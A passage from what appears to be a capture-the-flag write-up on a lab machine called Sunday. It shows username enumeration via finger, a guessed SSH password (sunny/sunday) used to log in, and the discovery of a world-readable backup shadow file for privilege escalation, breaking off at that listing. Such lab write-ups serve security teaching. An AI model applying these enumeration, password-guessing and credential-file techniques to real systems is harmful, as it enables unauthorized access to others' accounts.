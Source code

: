     sammy@10.10.10.76: sammy                 pts/2        <Sep 27 13:55> 10.10.16.26         ..
    sunny@10.10.10.76: sunny                 pts/3        <Apr 24 10:48> 10.10.14.4          ..
    sys@10.10.10.76: sys             ???                         < .  .  .  . >..
    zsa zsa@10.10.10.76: Login       Name               TTY         Idle    When    Where..zsa                   ???..zsa                   ???..
    ######## Scan completed at Thu Sep 27 17:44:39 2018 #########
    14 results.
    
    10163 queries in 337 seconds (30.2 queries / sec)
    

There’s some garbage in there, but two interesting usernames:

    
    
    sammy@10.10.10.76: sammy                 pts/2        <Sep 27 13:55> 10.10.16.26         ..
    sunny@10.10.10.76: sunny                 pts/3        <Apr 24 10:48> 10.10.14.4          ..
    

Now we can compare the results of finger for a name that exists and one that
doesn’t:

    
    
    root@kali# finger 0xdf@10.10.10.76
    Login       Name               TTY         Idle    When    Where
    0xdf                  ???
    root@kali# finger sunny@10.10.10.76
    Login       Name               TTY         Idle    When    Where
    sunny    sunny                 pts/2            Fri 11:06  10.10.14.5
    

## User Shell - SSH As sunny

With two known accounts, and ssh, it’s worth guessing a few passwords. I
always try admin, root, the box name, and any defaults for the application.
Turns out sunny/sunday works:

    
    
    root@kali# ssh -p 22022 sunny@10.10.10.76
    Password:
    Last login: Thu May  3 15:25:35 2018 from 10.10.14.12
    Sun Microsystems Inc.   SunOS 5.11      snv_111b        November 2008
    sunny@sunday:~$ pwd
    /export/home/sunny
    sunny@sunday:~$ id
    uid=65535(sunny) gid=1(other) groups=1(other)
    

## Privesc: sunny to sammy

### Find Backup shadow

Inside `/backup` there’s a copy of a `shadow` file that is world readable:

    
    
    sunny@sunday:/backup$ ls -l
    total 2
    -r-x--x--x 1 root root  53 2018-04-24 10:35 agent22.backup
    -rw-r--r-- 1 root root 319 2018-04-15 20:44 shadow.backup
    